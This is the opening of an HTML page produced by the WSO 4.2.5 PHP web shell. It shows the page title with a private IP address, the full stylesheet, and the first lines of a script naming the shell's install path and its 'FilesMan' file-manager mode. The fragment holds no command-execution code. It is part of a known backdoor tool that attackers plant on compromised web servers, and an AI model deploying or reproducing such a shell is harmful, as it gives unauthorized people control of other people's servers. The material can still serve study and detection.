 	<html><head><meta http-equiv='Content-Type' content='text/html; charset=UTF-8'><title>192.168.182.143 - WSO 4.2.5</title>
	<style>
		body {background-color:#060A10; color:#e1e1e1; margin:0; font:normal 75% Arial, Helvetica, sans-serif; } canvas{ display: block; vertical-align: bottom;}
		#particles-js{width: 100%; height: 100px; background-color: #060a10; background-image: url(''); background-repeat: no-repeat; background-size: cover; background-position: 50% 50%;}
		body,td,th	{font:10pt tahoma,arial,verdana,sans-serif,Lucida Sans;margin:0;vertical-align:top;}
		table.info	{color:#C3C3C3;}
		table#toolsTbl {background-color: #060A10;}
		span,h1,a	{color:#fff !important;}
		span		{font-weight:bolder;}
		h1			{border-left:5px solid #2E6E9C;padding:2px 5px;font:14pt Verdana;background-color:#10151c;margin:0px;}
		div.content	{padding:5px;margin-left:5px;background-color:#060a10;}
		a			{text-decoration:none;}
		a:hover		{text-decoration:underline;}
		.tooltip::after {background:#0663D5;color:#FFF;content: attr(data-tooltip);margin-top:-50px;display:block;padding:6px 10px;position:absolute;visibility:hidden;}
		.tooltip:hover::after {opacity:1;visibility:visible;}
		.ml1		{border:1px solid #202832;padding:5px;margin:0;overflow:auto;}
		.bigarea	{min-width:100%;max-width:100%;height:400px;}
		input, textarea, select	{margin:0;color:#fff;background-color:#202832;border:none;font:9pt Courier New;outline:none;}
		label {position:relative}
		label:after {content:'<>';font:10px 'Consolas', monospace;color:#fff;-webkit-transform:rotate(90deg);-moz-transform:rotate(90deg);-ms-transform:rotate(90deg);transform:rotate(90deg);right:3px; top:3px;padding:0;position:absolute;pointer-events:none;}
		label:before {content:'';right:0; top:0;width:17px; height:17px;background:#202832;position:absolute;pointer-events:none;display:block;}
		form		{margin:0px;}
		#toolsTbl	{text-align:center;}
		#fak 		{background:none;}
		#fak td 	{padding:5px 0 0 0;}
		iframe		{border:1px solid #060a10;}
		.toolsInp	{width:300px}
		.main th	{text-align:left;background-color:#060a10;}
		.main tr:hover{background-color:#354252;}
		.main td, th{vertical-align:middle;}
		input[type='submit']{background-color:#2E6E9C;}
		input[type='button']{background-color:#2E6E9C;}
		input[type='submit']:hover{background-color:#56AD15;}
		input[type='button']:hover{background-color:#56AD15;}
		.l1			{background-color:#202832;}
		pre			{font:9pt Courier New;}
	</style>
	<script>
	    var c_ = '/var/www/html/webshell-master/php/wso/';
	    var a_ = 'FilesMan'
	    var charset_ = 'UTF-8';
	    var p1_ = '';
	    var p2_ = '';
	    var p3_ = '';
	    var d = document;
		